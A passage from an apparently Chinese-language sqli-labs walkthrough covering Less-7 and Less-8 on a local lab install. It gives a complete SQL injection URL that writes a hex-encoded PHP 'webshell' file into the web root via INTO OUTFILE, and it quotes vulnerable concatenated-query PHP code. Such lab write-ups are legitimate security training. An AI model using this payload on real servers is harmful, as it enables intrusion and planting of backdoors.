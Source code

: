 

**写入webshell木马：**`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) union select null,0x3c3f70687020706870696e666f28293b3f3e3b,null into outfile 'D:\\phpStudy\\WWW\\sqli-labs-master\\Less-7\\test.php' --+`

![](sqli-labs/1779065-20210219105602031-1035446079.png)



写入webshell后查看当前页面所在目录，查看生成的webshell文件`test.php`

![](sqli-labs/1779065-20210219105610972-1443399329.png)	

![](sqli-labs/1779065-20210219105618978-1016933771.png)



## Less-8

通过查看php源码可以发现，与less7不同的是闭合符号由双引号改为单引号

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
```